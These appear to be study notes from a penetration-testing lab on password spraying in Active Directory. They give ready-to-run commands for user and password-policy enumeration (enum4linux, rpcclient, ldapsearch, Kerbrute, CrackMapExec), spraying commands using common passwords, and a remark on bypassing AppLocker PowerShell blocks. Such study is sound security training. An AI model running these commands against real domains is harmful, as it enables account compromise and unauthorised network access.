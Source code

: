 # password spraying

how to get info about users:
* SMB null 
* LDAP anonymous bind to query LDAP anonymously
* tool such as Kerbrute to validate users utilizing a word list from:
  * https://github.com/insidetrust/statistically-likely-usernames
  * https://github.com/initstring/linkedin2username
  * `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt `
* LLMNR/NBT-NS response poisoning using Responder

we can also get info about passowrd policies thorugh 
* SMB null 
* LDAP anonymous bind to query LDAP anonymously

tools that can be used are:
* enum4linux  - `enum4linux -U 172.16.5.5`
* rpcclient - `rpcclient -U "" -N 172.16.5.5`
* CrackMapExec - `crackmapexec smb 172.16.5.5 --users`
* ldapsearch -  `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"`

## so lets spray

### kerbrute:
`kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1`

### crackmapexec
`sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +`
`sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`

> [!NOTE]
> what is a golden image?
> This meaning carried over into systems administration. In this context, a `golden image` is an intentionally configured snapshot of a system, (server, virtual desktop environment, or even a disk drive) which can be used to deploy new instances. Because this `golden image` (or sometimes gold image) is used in network virtualization to create new systems, it is also called a `master image` or `clone image`. Another popular term is a `baseline image`, which can be an illustrative term to frame why `golden images` are so useful:\
>  they create a consistent, reliable baseline for system configuration, which can make it easier to maintain those systems across their life cycle.


## security controls

* microsoft defender - by default will block `power view`
* applocker
```
It is common for organizations to block cmd.exe and PowerShell.exe and writeaccess to certain directories, but this can all be bypassed. Organizationsalso often focus on blocking the PowerShell.exe executable, but forget aboutthe other PowerShell executable locations such as%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe orPowerShell_ISE.exe
```
* 